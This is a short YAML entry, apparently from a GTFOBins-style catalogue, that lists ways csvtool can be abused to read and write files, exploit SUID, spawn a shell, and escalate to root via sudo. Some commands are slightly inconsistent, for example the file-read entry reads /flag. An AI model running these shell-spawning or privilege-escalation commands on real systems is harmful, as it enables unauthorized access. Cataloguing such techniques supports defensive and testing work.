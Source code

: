 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file-to-read.txt
        csvtool trim t /flag
  file-write:
    - code: |
        RFILE=file-to-read
        WFILE=file-to-write
        csvtool trim t RFILE -o WFILE
  suid:
    - code: |
        LFILE=file-to-read
        ./csvtool trim t LFILE
  shell:
    - code: csvtool call '/bin/sh;false' /etc/passwd
  sudo:
    - code: sudo csvtool call '/bin/sh;false' /etc/passwd
---
```

